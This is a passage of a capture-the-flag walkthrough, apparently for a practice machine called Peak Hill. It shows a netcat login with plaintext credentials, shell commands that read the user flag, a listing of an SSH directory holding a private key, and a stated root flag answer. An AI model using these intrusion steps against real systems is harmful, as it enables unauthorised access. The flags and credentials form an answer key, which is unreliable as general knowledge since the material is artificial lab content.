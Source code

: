 <img width="1212" height="187" alt="image" src="https://github.com/user-attachments/assets/8c019a30-3f1f-4b21-a01e-b50336f9ace4" />

<br>

<h3>Port 7321</h3>


```bash
:~/PeakHill# nc TargetIP 7321
Username: dill
Password: n3v3r_@_d1ll_m0m3nt
Successfully logged in!
Cmd: 
```

<img width="1216" height="155" alt="image" src="https://github.com/user-attachments/assets/a68665a6-5ad9-4909-a16b-2f9bba70eba3" />



```bash
Cmd: id
uid=1003(dill) gid=1003(dill) groups=1003(dill)

Cmd: pwd
/var/cmd

Cmd: ls -lah /home/dill
total 32K
drwxr-xr-x 5 dill dill 4.0K May 20  2020 .
drwxr-xr-x 4 root root 4.0K May 15  2020 ..
-rw------- 1 root root  889 May 20  2020 .bash_history
-rw-r--r-- 1 dill dill 3.8K May 18  2020 .bashrc
drwx------ 2 dill dill 4.0K May 15  2020 .cache
drwxrwxr-x 2 dill dill 4.0K May 20  2020 .nano
drwxr-xr-x 2 dill dill 4.0K May 15  2020 .ssh
-r--r----- 1 dill dill   33 May 15  2020 user.txt

Cmd: cat /home/dill/user.txt
f1e13335c47306e193212c98fc07b6a0

Cmd: 
```

<br>

<p>1.2. What is the root flag?<br>
<code>e88f0a01135c05cf0912cf4bc335ee28</code></p>

<br>


```bash
Cmd: ls -lah /home/dill/.ssh
total 20K
drwxr-xr-x 2 dill dill 4.0K May 15  2020 .
drwxr-xr-x 5 dill dill 4.0K May 20  2020 ..
-rw-r--r-- 1 dill dill  568 May 15  2020 authorized_keys
-rw------- 1 dill dill 2.6K May 15  2020 id_rsa
-rw-r--r-- 1 dill dill  568 May 15  2020 id_rsa.pub
```
